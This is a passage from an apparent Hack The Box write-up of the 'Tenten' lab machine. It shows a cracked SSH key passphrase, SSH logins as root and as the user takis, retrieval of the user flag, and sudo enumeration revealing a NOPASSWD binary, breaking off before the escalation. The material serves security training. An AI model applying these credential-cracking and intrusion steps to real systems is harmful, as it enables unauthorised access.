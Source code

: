 ```text
superpassword    (id_rsa)
1g 0:00:00:05 DONE (2020-03-15 17:58) 0.1876g/s 2690Kp/s 2690Kc/s 2690KC/sa6_123..*7¡Vamos!
Session completed
```

Found password for ssh private key, now try to connect:

```text
root@kali:~/htb/machines/tenten# chmod 600 id_rsa

root@kali:~/htb/machines/tenten# ssh -i id_rsa root@10.10.10.10
Enter passphrase for key 'id_rsa':
root@10.10.10.10's password:
root@10.10.10.10: Permission denied (publickey,password).
```

## User Flag

Tried password from above, doesn't work, try for other user we found earlier:

```text
root@kali:~/htb/machines/tenten# ssh -i id_rsa takis@10.10.10.10
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ECDSA key fingerprint is SHA256:AxKIYOMkqGk3v+ZKgHEM6QcEDw8c8/qi1l0CMNSx8uQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':   <- enter password from above here: superpassword
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
65 packages can be updated.
39 updates are security updates.
Last login: Fri May  5 23:05:36 2017

takis@tenten:~$ id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)

takis@tenten:~$ ls
user.txt

takis@tenten:~$ cat user.txt
takis@tenten:~$ <<HIDDEN>>
```

## Privilege Escalation

Now we need to escalate to root. One of the first things I check is sudo for the user I'm logged in as:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
